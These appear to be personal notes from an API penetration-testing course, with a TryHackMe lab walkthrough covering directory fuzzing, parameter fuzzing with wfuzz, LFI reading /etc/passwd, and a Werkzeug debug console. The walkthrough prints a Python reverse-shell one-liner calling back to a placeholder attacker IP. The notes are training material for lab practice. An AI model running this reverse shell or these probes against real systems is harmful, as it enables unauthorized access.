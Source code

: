 !!! info ""

    ### Introduction

    API Application Programming Interface
    
    ![tcm_api_intro_1](tcm_api_intro_1.png)

    #### Interacting with APIs
    API to play with [https://catfact.ninja/](https://catfact.ninja/)
    ![tcm_api_intro_2](tcm_api_intro_2.png)
    
    To call API and get a fact [https://catfact.ninja/fact](https://catfact.ninja/fact)

    The API get /fact has a Parameter that we can test
    ![tcm_api_intro_3](tcm_api_intro_3.png)
    [](https://catfact.ninja/fact/)]

    Test the Parameter [https://catfact.ninja/fact?max_length=50](https://catfact.ninja/fact?max_length=50)


    #### API Types
    - REST (Client Server Arch., Stateless, uses HTTP methods)
    - Public
    - Partner (shared between a number of companies)
    - Private (used in a single Organization)

    #### HTTP Methods
    - Get
    - Head
    - Post
    - Delete


!!! info "" 

    ### Lab Setup

    - pimpmykali
        
        To easily install the required tools (such as docker-compose) and crAPI lab, simply clone this repository and run it with the option "O".

        ```bash
        git clone https://github.com/Dewalt-arch/pimpmykali
        ./pimpmykali.sh O
        ```

    - postman https://www.postman.com/downloads/

    - Burp Suite https://portswigger.net/burp/communitydownload
      - FoxyProxy extension for Firefox


!!! info "" 

    ### Enumerating APIs

    #### Fuzzing APIs

    !!! example ""
    
        https://tryhackme.com/r/room/bookstoreoc

        nmap the IP will show up port 5000 and robots.txt
        ![tcm_api_fuzz_1](tcm_api_fuzz_1.png)

        robots.txt doesn't want bots scanning api
        ![tcm_api_fuzz_2](tcm_api_fuzz_2.png)

        Fuzzing

        ```bash
        gobuster dir -u http://10.10.139.243:5000/ -w /usr/share/wordlists/dirb/big.txt -t 60
        ```

        ![alt text](image.png)

        Now if I visit http://10.10.139.243:5000/console I see the below
        
        ![alt text](image-1.png)



        we visit that api path and we get this
        so now we know how to use the api
        ![tcm_api_fuzz_3](tcm_api_fuzz_3.png)
        
        keep in mind if you see v2, version numbers, check if maybe there is v1, v3, etc.
        Try different types of values for input.
        Try enumerating the API

        ```bash
        GET /api/v3/resources/books?published=%27 HTTP/1.1
        ```
        
        we can enumerate in place of ```published``` and the value as it as well
        Below will return only status 200 ok

        ```bash
        wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --sc 200 'http://10.10.121.118:5000/api/v2/resources/books?FUZZ=%27'

        #trying v1

        wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --sc 200 'http://10.10.121.118:5000/api/v1/resources/books?FUZZ=%27'
        ```

        I am having an issue with the lab, i rebooted the target machine but none of the scans are showing me the show result, anyways, I snatched teh shot from somewhere online.
        ![alt text](image-7.png)

        ![alt text](image-2.png)

        Seems like we have LFI, checking ```/etc/passwd```

        ![alt text](image-8.png)

        Checking users list and locating target user
        ![alt text](image-9.png)

        ![alt text](image-5.png)

        Now we can try out that pin from above in the interactive console, yup it worked!
        ![alt text](image-6.png)

        https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/
        
        ```python
        __import__('os').popen('bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"').read()
        ```







    #### Discovery via Source code




!!! info "" 

    ### Attacking Authorization




!!! info "" 

    ### Attacking Authentication




!!! info "" 

    ### Injection



!!! info "" 

    ### Mid-course Capstone







!!! info "" 

    ### Mass Assignment




!!! info "" 

    ### Excessive Data Exposure




!!! info "" 

    ### SSRF - Server-side Request Forgery



!!! info "" 

    ### Chaining Vulnerabilities



!!! info "" 

    ### Final Capstone

!!! info ""

    ### Resources

    [exploit-notes.hdks](https://exploit-notes.hdks.org/exploit/web/api/)

